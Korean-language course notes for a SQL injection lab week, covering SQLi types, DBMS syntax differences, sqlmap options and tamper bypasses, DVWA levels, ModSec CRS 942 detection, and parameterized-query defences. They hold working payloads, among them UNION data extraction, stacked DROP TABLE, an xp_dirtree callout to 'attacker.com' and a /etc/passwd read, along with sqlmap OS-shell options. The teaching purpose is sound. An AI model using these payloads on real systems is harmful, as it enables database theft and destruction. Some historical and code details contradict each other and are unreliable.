

# Week 04 — OWASP A03 — SQL Injection (sqlmap + DVWA)

> **SQL Injection** = 사용자 입력이 SQL query 의 일부로 연결되어 의도 외 query 가
> 실행되는 취약점. OWASP Top 10 의 A03 Injection 의 대표. CWE-89. 1998 Phrack #54
> 의 Rain Forest Puppy 가 처음 공식 명명, 25+ 년 후에도 여전히 빈번. 본 주차는 SQLi
> 의 4 타입 + sqlmap 자동화 + DVWA 의 수준별 우회 + ModSec / libinjection 의
> 방어를 모두 다룬다.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **SQLi 의 정의 + 역사 + 5 유명 사고** + 한국 KISA 사고 매핑
2. **SQLi 4 타입** (boolean / error / UNION / blind time / stacked) 의 동작·예
3. **5 DBMS** (MySQL / PostgreSQL / SQLite / MSSQL / Oracle) 의 syntax 차이
4. **sqlmap 상세** (모든 옵션 + tamper script + DBMS 별 페이로드)
5. **DVWA 수준별 우회** (low / medium / high / impossible)
6. **libinjection** + **ModSec CRS 942** 룰셋의 동작 + 우회 시도
7. **방어 표준** (parameterized query / stored procedure / ORM / input validation)
8. W04 R/B/P 1 사이클 (Red SQLi → Blue 3 도구 detect → Purple 룰 강화)

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                     | 유형 |
|-----------|--------------------------------------------------------------------------|------|
| 0:00–0:30 | 이론 — SQLi 정의 + 5 유명 사고 + 한국 사례                                | 강의 |
| 0:30–1:00 | 이론 — 4 SQLi 타입 (boolean / error / UNION / blind)                     | 강의 |
| 1:00–1:10 | 휴식                                                                      | —    |
| 1:10–1:40 | 이론 — 5 DBMS syntax 차이 + sqlmap 상세                                   | 강의 |
| 1:40–2:00 | 이론 — libinjection + ModSec CRS 942 + 우회 패턴                          | 강의 |
| 2:00–2:30 | 실습 1, 2 — DVWA SQLi (boolean / UNION)                                   | 실습 |
| 2:30–2:40 | 휴식                                                                      | —    |
| 2:40–3:10 | 실습 3, 4 — sqlmap 자동화 + tamper 우회                                   | 실습 |
| 3:10–3:30 | 실습 5, 6 — Blind time-based + R/B/P 보고서                              | 실습 |
| 3:30–3:40 | 정리 + W05 (XSS) 예고                                                    | 정리 |

---

## 1. SQL Injection 이란?

### 1.1 정의

```
SQL Injection (SQLi) = 사용자 입력이 SQL query 의 syntax 일부로 해석되어
                       의도 외 query 가 DB 에서 실행되는 취약점
CWE-89: Improper Neutralization of Special Elements used in an SQL Command
```

**예시 — 정상 vs 공격**:

```sql
-- 정상
SELECT * FROM users WHERE id = '1';

-- 공격 (사용자가 id 에 1' OR '1'='1 입력)
SELECT * FROM users WHERE id = '1' OR '1'='1';
-- 결과: WHERE 조건 항상 참 → 모든 row 반환
```

### 1.2 역사

- **1998** : Phrack #54 의 **Rain Forest Puppy** (Jeff Forristal) — 최초 공식 명명
  + 첫 PoC
- **2000s** : SQL slammer worm, Sony Pictures, Heartland Payment 등 대규모 사고
- **2007** : sqlmap (Bernardo Damele + Miroslav Stampar) — 자동화 표준
- **2013** : OWASP Top 10 A1 Injection 1위
- **2017** : libinjection (Nick Galbreath) — 정교한 매칭 라이브러리
- **2024** : OWASP A03 — 여전히 빈번 (Stripe, Twitter 등 모던 회사에서도 발견)

### 1.3 5 유명 사고

| 연도 | 회사 | 영향 | 본 과목 매핑 |
|------|------|------|--------------|
| 2008 | Heartland Payment | 1.34 억 카드 정보 유출 | W04 (UNION) |
| 2009 | RockYou | 3200만 비밀번호 (평문!) | W04 + 약한 hash |
| 2011 | Sony Pictures (LulzSec) | 7700만 PSN 계정 | W04 boolean |
| 2014 | 한국 인터파크 | 1700만 회원 정보 | W04 |
| 2015 | TalkTalk (UK) | 15만 고객 정보 | W04 (15 세 해커) |
| 2017 | Equifax | 1.45억 PII (Apache Struts CVE) | (별 RCE) |

### 1.4 한국 사례 (KISA 보호나라)

**2014 인터파크 침해**:
- SQLi → DB 권한 상승 → 1700만 회원 정보 유출
- 처리: KISA 신고 + 과징금 44.8억 + 형사 처벌
- 본 과목 매핑: W04 SQLi → W06 인증 우회 → W12 데이터 유출

**2020+ 대학·공공기관 침해**:
- 학사관리 SQLi 사고 다수 (대부분 미공개)
- 학습 환경의 PoC 필요성 → 본 과목의 존재 이유

### 1.5 SQLi 가 왜 여전히 빈번한가?

1. **레거시 코드** — 모든 코드가 ORM 으로 교체된 게 아님
2. **stored procedure 의 동적 SQL** — 일부 SP 는 EXEC() 로 string 빌드 → SQLi
3. **NoSQL injection** 도 등장 (MongoDB / Redis — 다른 syntax)
4. **개발자 교육 부족** — bootcamp 교육의 90% 가 보안 부재
5. **테스트 시 발견 안 됨** — 자동 스캐너 (sqlmap) 의 모든 모드 시도 부족

---

## 2. 4 SQLi 타입 + 1 변형

### 2.1 In-Band SQLi (응답에 데이터 노출)

#### 2.1.1 Boolean-based (Tautology / Conditional)

**원리**: WHERE 조건이 항상 참 → 모든 row 반환.

```sql
-- 페이로드
1' OR '1'='1
1 OR 1=1
1' OR '1
admin'--
'OR(LENGTH(database())=4)#
```

**예시 — auth bypass**:
```sql
-- 정상 query
SELECT * FROM users WHERE user='$user' AND pass='$pass';

-- 페이로드: user=admin'--   pass=anything
SELECT * FROM users WHERE user='admin'--' AND pass='anything';
-- '--' 가 주석 → AND pass 부분 무시 → admin 로그인 성공
```

**감지 방법**: 정상 응답과 비교 — 응답 size / status code / body keyword 차이.

#### 2.1.2 Error-based

**원리**: DB 에러 메시지에 sensitive 데이터 (DB / table / version) 노출.

```sql
-- MySQL extractvalue / updatexml (XPath 함수의 에러 활용)
1' AND extractvalue(1, concat(0x7e, (SELECT version()))) #

-- MySQL UpdateXML
1' AND updatexml(1, concat(0x7e, (SELECT user())), 1) #

-- PostgreSQL — cast error
1' AND cast((SELECT user) AS int) #
```

**감지**: 응답 body 에 "MySQL syntax error" / "extractvalue" / "ORA-" / "ERROR" 등.

#### 2.1.3 UNION-based

**원리**: 기존 query 결과에 추가 row append.

```sql
-- 1단계: 컬럼 수 추정 (ORDER BY)
1' ORDER BY 1 --
1' ORDER BY 2 --
1' ORDER BY 3 --     -- 에러 시 컬럼 2개
1' ORDER BY N --

-- 2단계: UNION (컬럼 수 일치 + 데이터 타입 일치)
1' UNION SELECT 1,2 --

-- 3단계: 데이터 추출
1' UNION SELECT username,password FROM users --
1' UNION SELECT user(),version() --
1' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables --
1' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE TABLE_NAME='users' --
```

**감지**: 응답에 추가 row 출현 (정상보다 많은 record).

### 2.2 Out-of-Band SQLi

응답 채널이 아닌 다른 채널 (DNS / HTTP) 로 데이터 추출. 응답이 없거나 너무 느릴 때.

```sql
-- MSSQL — DNS exfiltration
'; EXEC master..xp_dirtree '\\attacker.com\foo' --

-- PostgreSQL — pg_read_file (있을 때)
1'; SELECT pg_read_file('/etc/passwd') --
```

본 과목 외 (실제 외부 통신 RoE 위반).

### 2.3 Blind SQLi

응답에 직접 데이터 노출 안 됨 → 추론.

#### 2.3.1 Boolean Blind

```sql
-- 비밀번호 첫 글자가 'a' 인가?
1' AND SUBSTRING((SELECT password FROM users WHERE user='admin'), 1, 1)='a' --
-- True 면 응답 정상, False 면 다른 응답
```

문자별 binary search → 비밀번호 전체 추출. 시간 소요 (1 문자 = 26 시도).

#### 2.3.2 Time-based Blind

```sql
-- True 면 5초 지연
1' AND IF(SUBSTRING((SELECT pass FROM users),1,1)='a', SLEEP(5), 0) --

-- PostgreSQL pg_sleep
1' AND CASE WHEN (SELECT user)='postgres' THEN pg_sleep(5) ELSE pg_sleep(0) END --
```

응답 시간 차이로 정보 추출. 가장 느린 SQLi.

### 2.4 Stacked Queries

여러 query 를 `;` 로 연결.

```sql
1; DROP TABLE users --
1; INSERT INTO admins VALUES ('attacker','pass') --
```

**DBMS 별 지원**:
- MSSQL / PostgreSQL : 지원
- MySQL : 일반적으로 미지원 (PDO multi-query 활성 시만)
- SQLite : 미지원

---

## 3. 5 DBMS Syntax 차이

같은 SQLi 페이로드도 DBMS 별 syntax 차이로 동작 안 할 수 있다.

### 3.1 DB 식별 함수

| 기능 | MySQL | PostgreSQL | MSSQL | Oracle | SQLite |
|------|-------|------------|-------|--------|--------|
| version | `version()` | `version()` | `@@version` | `banner FROM v$version` | `sqlite_version()` |
| 현재 user | `user()` | `current_user` | `system_user` | `user FROM dual` | (없음) |
| 현재 DB | `database()` | `current_database()` | `db_name()` | `global_name` | `(파일명)` |
| 문자열 결합 | `CONCAT(a,b)` | `a \|\| b` 또는 `CONCAT()` | `a + b` | `a \|\| b` | `a \|\| b` |
| 주석 | `--`, `#`, `/* */` | `--`, `/* */` | `--`, `/* */` | `--`, `/* */` | `--`, `/* */` |
| LIMIT | `LIMIT 5` | `LIMIT 5` | `TOP 5` | `WHERE ROWNUM<=5` | `LIMIT 5` |
| Sleep | `SLEEP(5)` | `pg_sleep(5)` | `WAITFOR DELAY '0:0:5'` | `DBMS_LOCK.SLEEP(5)` | `(미지원)` |

### 3.2 자동 detect

sqlmap 의 `--banner` 옵션으로 자동 식별.

```bash
sqlmap -u "http://target/?id=1" --banner --batch
# 출력: back-end DBMS: MySQL >= 5.0
```

### 3.3 information_schema (모던 표준)

대부분 DBMS 가 ANSI SQL 의 information_schema 지원:

```sql
-- 모든 DB
SELECT schema_name FROM information_schema.schemata;

-- 특정 DB 의 모든 table
SELECT table_name FROM information_schema.tables WHERE table_schema='target_db';

-- 특정 table 의 모든 column
SELECT column_name FROM information_schema.columns WHERE table_name='users';
```

예외: Oracle 은 `all_tables / all_tab_columns`, SQLite 는 `sqlite_master`.

---

## 4. sqlmap — SQLi 자동화 표준

### 4.1 설치 + 버전

```
역사: 2006 Bernardo Damele + Miroslav Stampar
라이선스: GPLv2
언어: Python
DB: 모든 주요 DBMS 지원 (MySQL/PostgreSQL/MSSQL/Oracle/SQLite/Firebird/Sybase/SAP/...)
최신: 1.8.x (2024)
```

### 4.2 기본 워크플로 5 단계

```
1. detect — SQLi 가능 확인 (--batch)
2. fingerprint — DBMS 식별 (--banner / --fingerprint)
3. enum DBs — 모든 DB 명 (--dbs)
4. enum tables — 특정 DB 의 table (-D dbname --tables)
5. dump rows — 데이터 추출 (-D dbname -T tblname --dump)
```

### 4.3 핵심 옵션

#### 4.3.1 입력 방법

```bash
# URL parameter
sqlmap -u "http://target/?id=1"

# POST data
sqlmap -u "http://target/login" --data "user=admin&pass=test"

# Cookie 인증
sqlmap -u "..." --cookie "PHPSESSID=abc; security=low"

# header injection
sqlmap -u "..." --header "X-Forwarded-For: 1*"

# request 파일 (Burp 의 raw request 복사)
sqlmap -r request.txt

# Google dork
sqlmap -g "inurl:'id='"
```

#### 4.3.2 detect 강도

```bash
--level 1-5     # 시도 깊이 (1=default, 5=모든 시도)
--risk 1-3      # 위험도 (1=default, 3=UPDATE/INSERT 시도 — 위험)
--technique BEUSTQ
                # B=boolean, E=error, U=UNION, S=stacked, T=time, Q=inline
```

#### 4.3.3 데이터 추출

```bash
--dbs                       # 모든 DB
-D mydb --tables            # 특정 DB 의 table
-D mydb -T users --columns  # 특정 table 의 column
-D mydb -T users --dump     # 모든 row
-D mydb -T users -C user,pass --dump  # 특정 column 만
--all                       # 모든 정보 (시간 매우 오래)
```

#### 4.3.4 OS 측 명령 실행 (위험!)

```bash
--os-shell      # OS shell (DBMS 권한 시 OS 명령)
--os-pwn        # Metasploit payload 실행
--os-cmd "id"   # 단일 명령
--reg-read      # Windows 레지스트리 (MSSQL)
```

본 과목 RoE 외 — 학습 환경 영향. 실습 안 함.

#### 4.3.5 WAF 우회 (tamper)

```bash
--tamper=space2comment       # 공백 → /**/
--tamper=randomcase          # 대소문자 random
--tamper=between             # = → BETWEEN ... AND
--tamper=charunicodeescape   # unicode escape
--tamper=equaltolike         # = → LIKE
--tamper=apostrophenullencode  # ' → null byte
--tamper=space2comment,randomcase  # 여러 tamper 조합
--list-tamper                # 가능한 tamper script 모두 보기
```

### 4.4 출력 / 디버그

```bash
-v 1-6      # verbosity (3 = 모든 시도 query)
--batch     # 모든 prompt 자동 yes
--proxy=http://127.0.0.1:8080  # Burp 통합
--dump-format=CSV/HTML/SQLITE  # 출력 형식
```

---

## 5. ModSec + libinjection — 방어 메커니즘

### 5.1 OWASP CRS 942 룰셋

```
/usr/share/modsecurity-crs/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf
```

내부 룰 60+:

| 룰 ID | 의미 |
|-------|------|
| 942100 | libinjection 기반 SQLi 탐지 (가장 정확) |
| 942110 | 기본 SQLi 패턴 (UNION/SELECT/INSERT 등) |
| 942120 | SQL operators (OR/AND/=) |
| 942130 | SQLi 의 boolean |
| 942140 | SQLi 의 DB name |
| 942150 | SQLi 의 function |
| 942160 | SQLi 의 SLEEP/WAITFOR (time-based) |
| 942170 | SQLi 의 information_schema |
| 942180 | SQLi 의 OS file 접근 |
| 942190 | MSSQL OS shell |
| 942200 | MySQL UDF |
| 942210 | chained query (stacked) |

### 5.2 libinjection — Nick Galbreath 2012

```
SQLi 매칭의 정교 라이브러리. 단순 regex 가 아닌 token 기반 분석.
```

**원리**:
1. 입력을 SQL token 으로 parse (keyword / operator / literal / identifier)
2. token 의 순서 / 조합으로 SQLi 점수 계산
3. 5+ 의심 token + 특정 fingerprint 매치 → SQLi 판정

**예**:
```
입력: 1' OR '1'='1
Token: NUMBER(1), STRING('), OPERATOR(OR), STRING('1'='1)
Fingerprint: sUEoE (s=string, U=union, E=expr, ...)
→ libinjection 의 알려진 SQLi fingerprint 매칭 → block
```

**장점**: 단순 keyword 차단보다 false-positive 적음.

**우회**: complex 한 변형 (W10 에서 다룸).

### 5.3 anomaly scoring

CRS 의 anomaly score:
- 942100 매치 → score 5 (critical)
- 942110-942200 매치 → score 4 (error)
- inbound_anomaly_score_threshold = 5 → 합산 ≥ 5 시 block

```
페이로드: 1' OR '1'='1
  942100 매치 (libinjection) → score 5 → 즉시 block
  942130 매치 (boolean SQLi) → score 4
  total: 9 (block 발생, threshold 의 거의 2 배)
```

---

## 6. DVWA — 4 수준별 우회

DVWA 의 security level 4 단계:

### 6.1 Low — filter 없음

```php
// /vulnerabilities/sqli/source/low.php
$id = $_REQUEST['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

모든 SQLi 가능.

```sql
-- 페이로드
1' OR '1'='1
1' UNION SELECT user,password FROM users--
```

### 6.2 Medium — addslashes (작은따옴표 escape)

```php
$id = mysqli_real_escape_string($conn, $_POST['id']);
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id";  -- 작은따옴표 미사용
```

**우회**: 작은따옴표 없이 numeric injection.

```sql
1 OR 1=1
1 UNION SELECT user,password FROM users
```

### 6.3 High — session + filter

```php
// 입력을 session 에 저장하고 GET parameter 분리
$id = $_SESSION['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

**우회**: 별도 페이지 (session_id 변경) 에서 페이로드 주입 + main 페이지에서 결과 확인.
복잡 — 실 환경의 multi-step 공격 시뮬.

### 6.4 Impossible — prepared statement

```php
$stmt = $db->prepare("SELECT first_name, last_name FROM users WHERE user_id = (?)");
$stmt->bindParam(1, $_REQUEST['id'], PDO::PARAM_INT);
$stmt->execute();
```

**SQLi 거의 불가**. 모든 production 코드의 권장.

---

## 7. SQLi 방어 표준 5 종

### 7.1 Parameterized Query (Prepared Statement) — 표준

```python
# Python (psycopg2)
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))

# Java (JDBC)
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
stmt.setInt(1, userId);

# PHP PDO
$stmt = $db->prepare("SELECT * FROM users WHERE id = :id");
$stmt->execute(['id' => $id]);

# Node.js (mysql2)
conn.query("SELECT * FROM users WHERE id = ?", [userId], callback);
```

**원리**: query template + parameter 가 별도 — DB 가 parameter 를 SQL 로 해석하지 않음.

### 7.2 Stored Procedure (단, 동적 SQL 미사용)

```sql
CREATE PROCEDURE GetUser(@id INT)
AS
BEGIN
    SELECT * FROM users WHERE id = @id;
END
```

단점: dynamic SQL 사용 시 (`EXEC()`) 다시 SQLi 가능.

### 7.3 ORM (Object-Relational Mapping)

```python
# Django ORM
User.objects.get(id=user_id)    # ORM 가 자동 parameterize

# Sequelize (Node.js)
User.findOne({ where: { id: userId } })
```

**주의**: raw query (`User.objects.raw(...)`) 사용 시 SQLi 가능.

### 7.4 Input Validation (whitelist)

```python
# 숫자만 허용
if not user_id.isdigit():
    raise ValueError
```

부차적 방어. 단독 사용 금지 — parameterize 와 결합.

### 7.5 Least Privilege (DB account)

```sql
-- app 사용자에게 최소 권한만
GRANT SELECT ON users TO app_user;
-- DROP/ALTER/CREATE 권한 미부여
```

SQLi 발생 시 영향 최소화.

---

## 8. ATT&CK 매핑

| Technique | 내용 |
|-----------|------|
| T1190 | Exploit Public-Facing Application |
| T1059.009 | Command and Scripting Interpreter - Cloud API (SQL) |
| T1213 | Data from Information Repositories |
| T1505.003 | Server Software Component - Web Shell (SQLi → OS shell) |

---

## 9. R/B/P 시나리오 — SQLi 1 사이클



**핵심 인사이트**:
- 단순 SQLi 페이로드는 ModSec 942 가 즉시 차단 (anomaly score ≥ 5)
- Red 시점에서 403 응답 = "차단됨, 다른 방법 시도" 신호
- Blue 측은 Suricata (network) + ModSec (web) + Wazuh (통합) 3 source 가 동일 사건
  detect
- Purple 측은 paranoia 상승 / CDB list / Active Response 3 권장

---

## 10. 실습 1~6

### 실습 1 — DVWA 진입 + boolean SQLi (low)

```bash
# DVWA 의 메인 페이지
ssh 6v6-attacker '
echo "=== DVWA 메인 페이지 ==="
curl -s -H "Host: dvwa.6v6.lab" http://10.20.30.1/ | head -10

# DVWA 가 setup 안 됐다면 setup.php 가 보임
# default credential: admin / password
'
```

```bash
# boolean SQLi (DVWA security=low 가정)
# 실 학습 환경에서 DVWA 가 ModSec 차단되면 403 — 차단 자체가 학습 효과
ssh 6v6-attacker '
echo "=== boolean SQLi 시도 ==="

# 페이로드 5 변형
for p in "1" "1'\''" "1'\'' OR '\''1'\''='\''1" "1 OR 1=1" "admin'\''--"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: juice.6v6.lab" \
        "http://10.20.30.1/api/Products?id=$p")
    echo "$code | $p"
done
'
```

**예상 결과 분석**:
- `1` (정상) → 200
- `1'` (단순 quote) → 200 or 500 (DB 에러)
- `1' OR '1'='1` (tautology) → 403 (ModSec 942 차단)
- `1 OR 1=1` (numeric tautology) → 403 또는 200 (paranoia 1 우회 가능)
- `admin'--` (auth bypass) → 403

### 실습 2 — UNION SELECT 시도

```bash
ssh 6v6-attacker '
echo "=== UNION SELECT 4 단계 ==="

# 1단계: 컬럼 수 추정 (ORDER BY)
for n in 1 2 3 4 5; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: dvwa.6v6.lab" \
        "http://10.20.30.1/?id=1+ORDER+BY+$n")
    echo "ORDER BY $n: $code"
done

# 2단계: UNION SELECT (컬럼 수 N 가정)
curl -s -o /dev/null -w "UNION SELECT 1,2: %{http_code}\n" \
    -H "Host: dvwa.6v6.lab" \
    "http://10.20.30.1/?id=1+UNION+SELECT+1,2"

# 3단계: 데이터 추출 (DB 종류 식별)
curl -s -o /dev/null -w "UNION SELECT version(): %{http_code}\n" \
    -H "Host: dvwa.6v6.lab" \
    "http://10.20.30.1/?id=1+UNION+SELECT+version(),NULL"

# 4단계: information_schema 활용
curl -s -o /dev/null -w "information_schema: %{http_code}\n" \
    -H "Host: dvwa.6v6.lab" \
    "http://10.20.30.1/?id=1+UNION+SELECT+table_name,NULL+FROM+information_schema.tables"
'
```

**예상 결과 (ModSec 활성)**:
대부분 403 (942110 매치). 이는 정상 — ModSec 가 모든 UNION SQLi 차단.

### 실습 3 — sqlmap 자동화

```bash
ssh 6v6-attacker '
echo "=== sqlmap detect 단계 (5 분 timeout) ==="
timeout 300 sqlmap \
    -u "http://10.20.30.1/?id=1" \
    --headers="Host: dvwa.6v6.lab" \
    --batch \
    --level=2 \
    --risk=1 \
    2>&1 | tail -30
'
```

**예상 결과 (ModSec 활성 시)**:
```
[INFO] testing connection to the target URL
[INFO] testing if the target URL content is stable
[INFO] testing if GET parameter 'id' is dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[INFO] testing for SQL injection on GET parameter 'id'
...
[CRITICAL] all tested parameters do not appear to be injectable. ...
```

즉 ModSec 가 모든 SQLi payload 를 차단 → sqlmap 의 "not injectable" 결론.

### 실습 4 — sqlmap tamper 우회 시도

```bash
ssh 6v6-attacker '
echo "=== sqlmap with tamper (paranoia 1 우회 시도) ==="
for tamper in "space2comment" "randomcase" "between" "charunicodeescape"; do
    echo ""
    echo "--- tamper=$tamper ---"
    timeout 60 sqlmap \
        -u "http://10.20.30.1/?id=1" \
        --headers="Host: dvwa.6v6.lab" \
        --batch \
        --level=2 \
        --tamper="$tamper" \
        2>&1 | tail -5
done
'
```

**결과 분석**: paranoia 1 의 ModSec 942 가 매우 강력 → 대부분 tamper 도 차단.
일부 (charunicodeescape 등) 가 paranoia 1 우회 가능성.

### 실습 5 — Blind time-based 시뮬

```bash
ssh 6v6-attacker '
echo "=== Time-based blind 시도 ==="

# 정상 응답 시간 측정
echo "정상 응답:"
time curl -s -o /dev/null -H "Host: dvwa.6v6.lab" \
    "http://10.20.30.1/?id=1"

# SLEEP(3) 페이로드
echo ""
echo "SLEEP(3) 페이로드:"
time curl -s -o /dev/null -H "Host: dvwa.6v6.lab" \
    "http://10.20.30.1/?id=1+AND+SLEEP(3)"
'
```

**예상 결과**:
- 정상: 0.1초
- SLEEP(3): 0.1초 (ModSec 차단 시) 또는 3.5초 (sleep 실행 시)

즉 시간 차이 0 → ModSec 가 즉시 차단. 이는 정상 방어.

### 실습 6 — R/B/P 보고서

```bash
# Red 측 — 본인이 실행한 모든 SQLi 페이로드
echo "=== Red 측 history ==="
history | grep -E "curl|sqlmap" | tail -10 > /tmp/red_log.txt

# Blue 측 — Suricata 의 SQLi alerts
ssh 6v6-ips '
echo "=== Suricata SQLi alerts (최근 10분) ==="
sudo tail -300 /var/log/suricata/eve.json | \
    jq "select(.event_type==\"alert\" and (.alert.signature | tostring | test(\"SQL\")))" 2>/dev/null | head -10
'

# Blue 측 — ModSec 942 매치
ssh 6v6-web '
echo "=== ModSec 942 매치 (최근 transaction) ==="
sudo tail -5 /var/log/apache2/modsec_audit.log | head -1 | \
    jq ".transaction.messages[] | select(.id | startswith(\"942\")) | {id, msg, data}"
'

# Blue 측 — Wazuh alerts (통합 view)
ssh 6v6-siem '
echo "=== Wazuh SQLi alerts ==="
sudo tail -100 /var/ossec/logs/alerts/alerts.json | \
    jq "select(.data.modsecurity.rule_id // .alert.signature | tostring | test(\"942|SQL\"))" 2>/dev/null | head
'
```

**R/B/P 보고서 양식**:

```markdown
# W04 R/B/P 보고서 — SQL Injection

## Red 측
- 페이로드 시도: 20+ 변형
- 성공한 페이로드: 0 (ModSec 차단)
- 시간 소요: 1 시간

## Blue 측 (Coverage Matrix)
| Tactic | Red 시도 | Blue 탐지 | Coverage |
| T1190 SQLi | ✓ 5 패턴 | ✓ ModSec 942 | 100% |
| 우회 시도 | ✓ 4 tamper | ✓ ModSec 차단 | 100% |
| Time-based | ✓ SLEEP(3) | ✓ 즉시 403 | 100% |

총 Coverage: 100% (모두 차단)

## Purple 측 권장
1. ModSec paranoia 1 → 2 (vhost 별 선택적)
2. CDB list 에 sqlmap UA 추가
3. Wazuh rule 100400: 1분에 ModSec 403 5건 → level 12
4. Active Response: level 12 시 fw nft drop 5분
5. SOC 알람: SQLi alert burst → 즉시 SOC 분석가 알림

## 학습 인사이트
- ModSec 942 + libinjection 이 모던 SQLi 1차 방어선
- Red 시점에서 차단은 즉시 인지 (403) → 다른 vector 로 이동
- Blue 시점에서 모든 시도가 audit log 에 기록 → 침해 추적 가능
```

---

## 11. 한국 사례 + 표준 매핑

### 11.1 ISMS-P 2.10.7

본 주차의 SQLi 차단 검증이 본 통제의 핵심 입증.

### 11.2 NIST CSF — Protect (PR.IP-1) + Detect (DE.AE-3)

- Protect: ModSec / parameterized query 의 사전 차단
- Detect: Wazuh / Suricata 의 사후 분석

### 11.3 OWASP Cheat Sheet — SQL Injection Prevention

표준 권장 5 항목 (위 §7 참조).

---

## 11.5 SQLi 클라이언트가 Windows 직원 PC 일 때 (W03 secuops 위빙)

본 주차의 sqlmap 공격은 외부 attacker 호스트에서 출발하는 게 표준이다. 그러나 실무에서 SQLi 가
시작되는 자리 중 하나는 **사용자의 브라우저** — 직원 PC 가 의심 URL 을 클릭하는 순간.

### 공격자 시각의 변형 — 직원 PC 경유

```
시나리오: 직원의 브라우저가 GET 요청
   URL: http://dvwa.6v6.lab/?q=1' UNION SELECT user,pass FROM users--
   (피싱 메일 / 악성 광고로 자동 트리거 — XSS-stored 의 발사대 등)
```

직원 PC 의 IP (10.20.33.60) 가 WAF audit 의 client_ip 로 기록된다. Blue 측에선:
- WAF audit: client_ip=10.20.33.60 + CRS 942 매칭
- Sysmon EID 1: chrome.exe / brave.exe / curl.exe + CommandLine 의 URL
- Sysmon EID 3: dmz 80 으로의 외부 연결

→ Red 입장에선 **흔적이 두 source 에 동시에 남는다** 는 사실이 중요. 직원 PC 경유 공격은
탐지가 더 쉽다 (출발지가 신원 추적 가능).

### 윤리 — 직원 PC 경유 공격의 의미

직원을 도구로 쓰는 공격은 **사회공학** 영역. 본 강의에선 시뮬레이션만, 실제 직원 대상 피싱은
별도 사전 동의·합의서 필수.

---

## 12. 과제

### A. SQLi 페이로드 매트릭스 (필수, 40점)

다음 표 작성:
| 페이로드 | 타입 | 응답 코드 | ModSec 룰 ID |
|----------|------|----------|--------------|
| `1' OR '1'='1` | boolean | 403 | 942100, 942130 |
| `1 UNION SELECT ...` | UNION | 403 | 942100, 942110 |
| ... 10+ 페이로드 |

### B. sqlmap report (심화, 30점)

sqlmap 의 자동 출력 분석 + 4 tamper 비교 + 결론.

### C. 방어 권장 (정성, 30점)

본 lab 의 SQLi 가 모두 차단된 후, 운영자 시점의 권장 5 항목 작성 (parameterized
query / ORM / least privilege / WAF tuning / detection).

---

## 13. 평가 기준

| 항목 | 비중 |
|------|------|
| 페이로드 매트릭스 (A) | 40% |
| sqlmap 분석 (B) | 30% |
| 방어 권장 (C) | 30% |

---

## 14. 핵심 정리 (10 줄)

1. **SQLi = OWASP A03 의 대표**, 25 년+ 빈번, 한국 KISA 사고 다수
2. **4 타입** — boolean / error / UNION / blind (time/boolean)
3. **5 DBMS syntax 차이** 인지 → 올바른 페이로드 선택
4. **sqlmap** = 자동화 표준 + tamper script + 다양한 옵션
5. **DVWA 4 수준** — low/medium/high/impossible (prepared statement)
6. **libinjection** + **ModSec CRS 942** = 모던 SQLi 방어 1차선
7. **방어 5 표준** — Prepared / SP / ORM / Validation / Least Privilege
8. **W04 R/B/P** — Red 시도 → 3 도구 detect → Purple 5 권장
9. **본 lab 의 SQLi 모두 차단** = ModSec 942 의 강력함 입증
10. **W05 (XSS)** 다음 주차 — Stored / Reflected / DOM + CSP 우회
